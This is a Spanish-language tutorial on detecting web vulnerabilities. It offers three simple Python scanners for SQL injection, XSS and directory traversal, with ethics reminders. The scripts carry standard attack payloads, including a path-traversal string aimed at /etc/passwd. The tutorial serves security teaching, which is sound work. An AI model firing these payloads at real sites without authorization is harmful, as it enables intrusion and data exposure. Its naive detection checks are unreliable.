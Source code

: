 # **Identificar Vulnerabilidades en Aplicaciones Web**



## 1. **Detección de Inyección SQL (SQL Injection)**

**Descripción de la Vulnerabilidad:** La inyección SQL ocurre cuando una aplicación web no valida adecuadamente la entrada del usuario, permitiendo que se inserten comandos SQL maliciosos que pueden manipular la base de datos.

**Script de Ejemplo en Python:**

```python
import requests

def test_sql_injection(url, param):
    """
    Prueba si un parámetro en una URL es vulnerable a inyección SQL.
    
    :param url: URL de la aplicación web con el parámetro vulnerable.
    :param param: Nombre del parámetro a probar.
    """
    # Carga útil de prueba para detectar inyección SQL
    payloads = ["' OR '1'='1", "' OR '1'='1' -- ", "' OR '1'='1' ({"]
    
    for payload in payloads:
        # Construir la URL con el payload
        injection_url = f"{url}?{param}={payload}"
        response = requests.get(injection_url)
        
        # Verificar si la carga útil está presente en la respuesta
        if payload in response.text:
            print(f"Posible vulnerabilidad SQL Injection detectada con payload: {payload}")
        else:
            print(f"Payload '{payload}' no detectó vulnerabilidad.")

# Ejemplo de uso
if __name__ == "__main__":
    target_url = "http://example.com/vulnerable_page.php"
    vulnerable_param = "id"
    test_sql_injection(target_url, vulnerable_param)
```

**Documentación del Script:**

- **Importaciones:**
  - `requests`: Biblioteca para realizar solicitudes HTTP.
- **Función `test_sql_injection`:**
  - Parámetros:
    - `url`: La URL de la página web que se va a probar.
    - `param`: El nombre del parámetro que se sospecha está vulnerable.
  - Funcionamiento:
    - Define una lista de cargas útiles (payloads) comunes utilizadas para detectar inyecciones SQL.
    - Itera sobre cada payload, construye una URL con el payload inyectado en el parámetro especificado.
    - Realiza una solicitud GET a la URL modificada.
    - Verifica si el payload está presente en la respuesta, lo que podría indicar una vulnerabilidad.
    - Imprime el resultado de la prueba.

**Consideraciones Éticas:** Este script debe utilizarse únicamente en aplicaciones web para las cuales se tiene autorización explícita para realizar pruebas de seguridad.

## 2. **Detección de Cross-Site Scripting (XSS)**

**Descripción de la Vulnerabilidad:** El Cross-Site Scripting (XSS) ocurre cuando una aplicación web permite la inserción de scripts maliciosos en las páginas vistas por otros usuarios, lo que puede llevar al robo de información, sesiones, etc.

**Script de Ejemplo en Python:**

```python
import requests

def test_xss(url, param):
    """
    Prueba si un parámetro en una URL es vulnerable a Cross-Site Scripting (XSS).
    
    :param url: URL de la aplicación web con el parámetro vulnerable.
    :param param: Nombre del parámetro a probar.
    """
    # Carga útil de prueba para detectar XSS
    payload = "<script>alert('XSS')</script>"
    
    # Construir la URL con el payload
    xss_url = f"{url}?{param}={payload}"
    response = requests.get(xss_url)
    
    # Verificar si el payload está presente en la respuesta
    if payload in response.text:
        print("Posible vulnerabilidad XSS detectada.")
    else:
        print("No se detectó vulnerabilidad XSS con el payload proporcionado.")

# Ejemplo de uso
if __name__ == "__main__":
    target_url = "http://example.com/search"
    vulnerable_param = "query"
    test_xss(target_url, vulnerable_param)
```

**Documentación del Script:**

- **Importaciones:**
  - `requests`: Biblioteca para realizar solicitudes HTTP.
- **Función `test_xss`:**
  - Parámetros:
    - `url`: La URL de la página web que se va a probar.
    - `param`: El nombre del parámetro que se sospecha está vulnerable.
  - Funcionamiento:
    - Define una carga útil (payload) comúnmente utilizada para detectar XSS.
    - Construye una URL con el payload inyectado en el parámetro especificado.
    - Realiza una solicitud GET a la URL modificada.
    - Verifica si el payload está presente en la respuesta, lo que podría indicar una vulnerabilidad.
    - Imprime el resultado de la prueba.

**Consideraciones Éticas:** Este script debe utilizarse únicamente en aplicaciones web para las cuales se tiene autorización explícita para realizar pruebas de seguridad.

## 3. **Detección de Traversal de Directorios (Directory Traversal)**

**Descripción de la Vulnerabilidad:** El Directory Traversal permite a un atacante acceder a archivos y directorios que están fuera del directorio raíz de la aplicación web, potencialmente exponiendo información sensible.

**Script de Ejemplo en Python:**

```python
import requests

def test_directory_traversal(url, param):
    """
    Prueba si un parámetro en una URL es vulnerable a Directory Traversal.
    
    :param url: URL de la aplicación web con el parámetro vulnerable.
    :param param: Nombre del parámetro a probar.
    """
    # Carga útil de prueba para detectar Directory Traversal
    payloads = ["../", "..\\", "../../../etc/passwd"]
    
    for payload in payloads:
        # Construir la URL con el payload
        traversal_url = f"{url}?{param}={payload}"
        response = requests.get(traversal_url)
        
        # Verificar si alguna cadena de caracteres de archivos sensibles está presente en la respuesta
        if "root:" in response.text or "passwd" in response.text:
            print(f"Posible vulnerabilidad Directory Traversal detectada con payload: {payload}")
            break
    else:
        print("No se detectó vulnerabilidad Directory Traversal con los payloads proporcionados.")

# Ejemplo de uso
if __name__ == "__main__":
    target_url = "http://example.com/view"
    vulnerable_param = "file"
    test_directory_traversal(target_url, vulnerable_param)
```

**Documentación del Script:**

- **Importaciones:**
  - `requests`: Biblioteca para realizar solicitudes HTTP.
- **Función `test_directory_traversal`:**
  - Parámetros:
    - `url`: La URL de la página web que se va a probar.
    - `param`: El nombre del parámetro que se sospecha está vulnerable.
  - Funcionamiento:
    - Define una lista de cargas útiles (payloads) utilizadas para detectar Directory Traversal.
    - Itera sobre cada payload, construye una URL con el payload inyectado en el parámetro especificado.
    - Realiza una solicitud GET a la URL modificada.
    - Verifica si en la respuesta se encuentran cadenas de caracteres que indican la exposición de archivos sensibles (por ejemplo, "root:" en `/etc/passwd` en sistemas Unix).
    - Imprime el resultado de la prueba.

**Consideraciones Éticas:** Este script debe utilizarse únicamente en aplicaciones web para las cuales se tiene autorización explícita para realizar pruebas de seguridad.

## Buenas Prácticas al Desarrollar Scripts para Pruebas de Seguridad

- **Autorización:** Siempre asegúrate de tener permiso explícito para realizar pruebas de seguridad en cualquier aplicación web.
- **Entorno Controlado:** Realiza pruebas en entornos de desarrollo o pruebas, nunca en sistemas de producción sin consentimiento.
- **Responsabilidad:** Informa de manera responsable cualquier vulnerabilidad encontrada a los propietarios de la aplicación web.
- **Actualización Constante:** Las vulnerabilidades y las técnicas de mitigación evolucionan constantemente. Mantente actualizado con las últimas tendencias y mejores prácticas en seguridad web.
- **Documentación:** Documenta claramente tus hallazgos y los pasos realizados durante las pruebas para facilitar la remediación y la comprensión.